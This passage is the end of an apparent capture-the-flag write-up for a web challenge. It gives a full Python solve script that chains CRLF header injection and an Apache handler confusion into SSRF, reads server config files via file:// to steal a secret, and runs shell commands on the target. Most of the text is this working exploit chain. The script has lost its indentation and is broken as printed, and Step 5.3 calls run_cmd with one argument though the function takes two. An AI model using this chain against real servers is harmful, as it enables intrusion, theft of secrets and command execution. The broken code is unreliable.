
Step 5.3 — Get the flag
print(run_cmd("/FLAG_NGpFllcO"))

Output:
MetaCTF{0R4NG3_7S4I_57uDen7_4w2345adcs4}
6. Complete solve script
python3 - <<'EOF'
import re
import ssl
import urllib.error
import urllib.parse
import urllib.request
TARGET = "https://d095f97642da70d3.live.sbhost.io"
CTX = ssl._create_unverified_context()
def req(url):
r = urllib.request.urlopen(
urllib.request.Request(url, headers={"User-Agent": "Mozilla/5.0"}),
timeout=30, context=CTX)
return r.read().decode(errors="replace")
def full_encode(s):
return "".join("%%%02x" % b for b in s.encode())
def ssrf(loc):
inner = "http://127.0.0.1/cgi-bin/proxy?location=" + full_encode(loc) + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
q = urllib.parse.urlencode({"token": tok})
return req(TARGET + "/cgi-bin/admin?" + q)
def read_file(path):
return ssrf("file://" + path)
def run_cmd(secret, cmd):
target = "http://127.0.0.1/cgi-bin/admin?token=%s&command=%s" % (secret, urllib.parse.quote(cmd))
return ssrf(target)
conf = read_file("/etc/apache2/conf-enabled/servername.conf")
print("[+] servername.conf leaked:\n" + conf)
m = re.search(r"SetEnv SECRET (\S+)", conf)
if not m:
raise SystemExit("[-] SECRET not found")
secret = m.group(1)
print("[+] SECRET =", secret)
out = run_cmd(secret, "ls -la /")
print("[+] ls -la /:\n" + out)
names = re.findall(r"/FLAG_[A-Za-z0-9]+", out + "\n")
if not names:
names = [l.split()[-1] for l in out.splitlines() if "FLAG_" in l]
if not names:
raise SystemExit("[-] flag binary not found")
binname = names[0]
print("[+] flag binary:", binname)
flag = run_cmd(secret, binname)
print("[+] FLAG:", flag.strip())
EOF
Flag: MetaCTF{0R4NG3_7S4I_57uDen7_4w2345adcs4} — a nod to Orange Tsai's Apache Confusion Attacks, exactly the technique used here.